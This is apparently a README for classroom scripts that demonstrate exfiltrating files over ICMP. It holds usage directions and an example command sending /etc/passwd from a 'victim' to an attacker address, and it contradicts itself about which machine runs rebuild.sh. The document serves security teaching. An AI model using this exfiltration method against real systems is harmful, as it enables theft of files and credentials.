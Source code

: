 ## About:
These programs demostrate how an attacker can exfiltrate data using the icmp protocol.  
They are designed for use in a cybersecurity classroom.  

## Programs Included:
- exfil.sh: This program sends files **FROM the VICTIM** machine over the ICMP protocol.   
- listen.sh: This runs the tcpdump command and produces the output file data.dmp.  
- pyarray.py: This program parses through the data.dmp file.  
- rebuild.sh: This script runs pyarray, produces a file called hexout, and prints the received file in plaintext.  

## Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the **ATTACKER** machine.  
Run  
```
./listen.sh  
```

Copy **exfil.sh** to the **VICTIM MACHINE**  
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>  
Example:
```
./exfil.sh /etc/passwd 192.168.14.5
```

Use CTRL-C to stop listen.sh.  
(You should see a file called data.dmp which contains the tcpdump output on the attacker machine.)

On the **VICTIM** machine  
Run
```
./rebuild.sh 
```
The file sent from the victim will be printed in plain text.  


